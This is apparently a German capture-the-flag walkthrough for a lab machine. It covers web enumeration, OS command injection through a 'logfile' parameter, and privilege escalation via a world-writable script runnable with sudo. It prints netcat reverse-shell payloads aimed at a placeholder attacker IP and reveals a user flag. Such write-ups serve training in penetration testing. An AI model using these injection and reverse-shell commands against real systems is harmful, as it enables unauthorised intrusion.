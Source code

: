 1.  **Web-Enumeration:**
    *   `gobuster dir` auf `http://192.168.2.111:8080` scheiterte zunächst, da der Server für nicht existierende URLs mit Status 200 antwortete.
    *   `nikto` fand fehlende Sicherheitsheader und den `X-Powered-By: PHP/7.3.19`-Header.
    *   Die Analyse des Quellcodes der Startseite (`index.php`) enthüllte die Existenz von `process.php` und die Parameter `function`, `message`, `nickname`, `file` für POST-Requests.
    *   `dirb` fand die Dateien `administration.php`, `chat.txt`, `index.php`, `process.php`.
    *   `wfuzz` auf `administration.php` fand den GET-Parameter `logfile`.

2.  **Identifizierung der Command Injection:**
    *   Der `logfile`-Parameter in `administration.php` war anfällig für OS Command Injection.
        *   `administration.php?logfile=test` -> Reflektierte "test".
        *   `administration.php?logfile=chat.txt` -> Zeigte den Inhalt von `chat.txt`.

3.  **Initial Access als `www-data`:**
    *   Die Command Injection wurde genutzt, um eine Reverse Shell zu starten:
        ```bash
        # Auf Angreifer-Maschine:
        # nc -lvnp 4444
        # Über Browser/Curl (URL-kodiert):
        # http://192.168.2.111:8080/administration.php?logfile=chat.txt;nc%20-e%20/bin/sh%20[Angreifer-IP]%204444
        ```
    *   Initialer Zugriff als `www-data` wurde erlangt und die Shell stabilisiert.

---

## Phase 3: Privilege Escalation (Kette)

### www-data zu Julia (Sudo & beschreibbares Skript)

1.  **Sudo-Rechte-Prüfung für `www-data`:**
    *   `www-data@insomnia:~/html$ sudo -l` zeigte:
        ```
        User www-data may run the following commands on insomnia:
            (julia) NPASSWD: /bin/bash /var/www/html/start.sh
        ```
2.  **Analyse von `/var/www/html/start.sh`:**
    *   Das Skript `start.sh` enthielt den Befehl `php -S 0.0.0.0:8080`.
    *   Die Berechtigungen waren `-rwxrwxrwx` (weltweit beschreibbar).

3.  **Ausnutzung:**
    *   Eine Netcat-Reverse-Shell-Payload wurde an `start.sh` angehängt:
        ```bash
        echo 'nc -e /bin/sh [Angreifer-IP] 5555' >> /var/www/html/start.sh
        ```
    *   Das modifizierte Skript wurde ausgeführt:
        ```bash
        sudo -u julia /bin/bash /var/www/html/start.sh
        ```
    *   Ein `nc`-Listener auf Port `5555` empfing die Shell als Benutzer `julia`.
    *   Die User-Flag `c2e285cb33cecdbeb83d2189e983a8c0` wurde in `/home/julia/user.txt` gefunden.
